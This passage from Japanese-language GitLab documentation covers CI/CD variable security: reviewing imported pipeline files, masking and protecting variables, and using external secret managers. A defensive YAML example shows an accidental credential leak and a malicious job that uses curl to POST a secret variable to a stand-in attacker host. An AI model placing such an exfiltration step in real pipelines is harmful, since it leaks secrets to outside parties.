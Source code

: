 ファイルを追加したり、パイプラインを実行したりする前に、インポートされたプロジェクトの`.gitlab-ci.yml`ファイルを確認してください。

次の例は、`.gitlab-ci.yml`ファイル内の悪意のあるコードを示しています。

```yaml
accidental-leak-job:
  script:                                         # Password exposed accidentally
    - echo "This script logs into the DB with $USER $PASSWORD"
    - db-login $USER $PASSWORD

malicious-job:
  script:                                         # Secret exposed maliciously
    - curl --request POST --data "secret_variable=$SECRET_VARIABLE" "https://maliciouswebsite.abcd/"
```

`accidental-leak-job`のようなスクリプトを介してシークレットが誤って漏洩するリスクを軽減するために、機密情報を含むすべての変数は、常に[ジョブログでマスク](#mask-a-cicd-variable)する必要があります。[変数を保護ブランチと保護タグのみに制限](#protect-a-cicd-variable)することもできます。

または、ネイティブのGitLabインテグレーションのいずれかを使用し、サードパーティのシークレットマネージャープロバイダーに接続して、シークレットを保存および取得することもできます。

- [HashiCorp Vault](../secrets/_index.md)
- [Azure Key Vault](../secrets/azure_key_vault.md)
- [Google Secret Manager](../secrets/gcp_secret_manager.md)

ネイティブインテグレーションがないシークレットマネージャーには、[OpenID Connect（OIDC）認証](../secrets/id_token_authentication.md)を使用することもできます。

`malicious-job`のような悪意のあるスクリプトは、レビュープロセス中に発見する必要があります。レビュアーは、このようなコードを見つけた場合、決してパイプラインをトリガーしてはいけません。悪意のあるコードによって、マスクされた変数と保護された変数の両方が漏洩する可能性があるためです。

変数の値は[`aes-256-cbc`](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard)を使用して暗号化され、データベースに保存されます。このデータは、有効な[シークレットファイル](../../administration/backup_restore/troubleshooting_backup_gitlab.md#when-the-secrets-file-is-lost)でのみ、読み取りおよび復号化できます。

### CI/CD変数をマスクする {#mask-a-cicd-variable}

{{< alert type="warning" >}}

CI/CD変数をマスクしても、悪意のあるユーザーが変数値にアクセスするのを確実に防げるとは限りません。機密情報を保護するには、[外部シークレット](../secrets/_index.md)や[ファイルタイプの変数](#use-file-type-cicd-variables)を使用して、`env`/`printenv`などのコマンドがシークレット変数を表示しないようにすることを検討してください。

{{< /alert >}}

プロジェクト、グループ、またはインスタンスのCI/CD変数をマスクして、ジョブログに変数の値が表示されないようにすることができます。マスクされたCI/CD変数がジョブログに表示される場合、値が公開されないように、値は`[masked]`に置き換えられます。

前提要件:

- [UIでCI/CD変数を追加](#define-a-cicd-variable-in-the-ui)するために必要なのと同じロールまたはアクセスレベルが必要です。

変数をマスクするには、次の手順に従います。

1. グループ、プロジェクト、または**管理者**エリアで、**設定 > CI/CD**を選択します。
1. **変数**を展開します。
1. 保護したい変数の横にある**編集**を選択します。
1. **可視化**で、**変数をマスク**を選択します。
1. **変数を更新**を選択します。
